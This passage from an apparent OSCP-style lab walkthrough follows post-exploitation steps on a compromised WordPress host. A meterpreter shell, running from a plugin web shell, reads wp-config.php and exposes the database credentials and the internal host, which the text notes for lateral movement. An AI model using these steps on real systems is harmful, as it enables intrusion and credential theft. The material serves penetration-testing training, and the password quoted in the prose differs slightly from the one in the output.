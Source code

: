 
• From this basic information gathering, we learn that the host is named “Ajla”, the IP address is 10.4.4.10, and the version of Linux is Ubuntu 16.04.12 on a 4.4.0-21-generic kernel. 

• This information will allow us to start drawing a mental map of the network and might be useful later.

									DMZ

 A demilitarized zone (DMZ) is a perimeter network that protects an organization's internal local-area network (LAN) from untrusted traffic. ... The end goal of a DMZ is to allow an organization to access untrusted networks, such as the internet, while ensuring its private network or LAN remains secure.
 
![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24/39.jpg)
 
 Having collected this basic information, we can move on to more specific enumeration.
 
 Since we know that the target is running WordPress and we found out that the database is on another host,we know that there should be database credentials somewhere on this system. 
 
 A quick Googlesearch reveals that the wp-config.php file is where we can find the database configuration forWordPress.
 
  Looking at this file, we find what might be our next target
  
  meterpreter > shell
Process 9702 created.
Channel 1 created.
pwd
/var/www/html/wp-content/plugins/plugin-shell
cd /var/www/html
ls -alh
...
-rw-r--r-- 1 www-data www-data 2.3K Jan 20 2019 wp-comments-post.php
-rw-r--r-- 1 www-data www-data 2.9K Jan 7 2019 wp-config-sample.php
-rw-r--r-- 1 www-data www-data 2.7K Dec 6 18:07 wp-config.php
drwxrwsr-x 6 www-data www-data 4.0K Dec 9 19:04 wp-content
...
cat wp-config.php
...
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );
/** MySQL database username */
define( 'DB_USER', 'wp' );
/** MySQL database password */
define( 'DB_PASSWORD', 'Lv9EVQq86cfi8ioWsqFUQyU' );
/** MySQL hostname */
define( 'DB_HOST', '10.5.5.11' );

  
 In the wp_config.php file, we find that the database IP address is set to 10.5.5.11. We alsodiscovered a MariaDB username of “wp” and that the password for this account is“Lv9EVQq86cfi8ioWsqFUQy.
 
 
24.2.7 Creating a Stable Pivot Point
